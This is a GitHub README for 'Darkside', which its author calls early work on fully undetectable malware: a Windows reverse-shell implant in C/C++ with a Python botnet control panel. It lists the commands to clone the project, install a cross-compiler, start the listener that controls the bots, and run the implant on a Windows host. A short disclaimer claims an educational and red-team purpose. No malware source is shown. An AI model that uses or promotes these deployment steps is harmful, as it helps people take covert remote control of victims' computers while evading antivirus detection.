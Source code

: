     # Darkside

For know it's small piece of software at mine beginning of writing FUD (full-undetectable) malware - limited reverse shell for Windows written in C/C++ and Python control panel.

## Getting Started

Download source from github


```
git clone https://github.com/Djkusik/Darkside.git
```

### Prerequisites

We will need cross compiler (if we're using Linux) - for these who use one based on Debian:

```
apt-get install mingw-w64-common mingw-w64-i686-dev mingw-w64-tools mingw-w64-x86-64-dev i686-w64-mingw32-g++
```

Helpful would be virtual machine with Windows for testing.

## Usage

First we need to open our server which will be used for controlling bots:

```
python3 botnet_server.py <LHOST> <LPORT>
```

Then run executable at Windows (for now it isn't run on startup). We can do it from cmd when being in the same folder:

```
.\darkside.exe
```

### Disclaimer

This software has been made for educational purposes and could be used for CyberSecurity Red Teams. I don't promote malicious practices and will not be responsible for any illegal activities. Use it at your own risk.